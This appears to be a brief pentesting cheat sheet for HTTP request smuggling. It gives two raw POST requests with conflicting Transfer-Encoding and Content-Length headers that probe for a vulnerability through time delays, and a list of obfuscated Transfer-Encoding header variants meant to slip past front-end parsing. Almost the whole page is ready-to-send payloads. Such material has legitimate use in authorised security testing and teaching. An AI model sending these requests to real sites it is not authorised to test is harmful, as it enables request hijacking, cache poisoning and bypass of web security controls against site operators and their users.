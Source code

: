 ### if a time delay occurs the site might be vulnerable
```
POST / HTTP/1.1
Host: <domain>
Transfer-Encoding: chunked
Content-Length: 4

1  
Z  
Q  
```

### again provoce time delay
```
POST / HTTP/1.1
Host: <domain>
Transfer-Encoding: chunked
Content-Length: 6

0  

X  
```


### some different chung encoding templates:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked  

Transfer-Encoding: chunked  

Transfer-Encoding: x  

Transfer-Encoding:[tab]chunked  

X: X[\n]Transfer-Encoding: chunked  
```

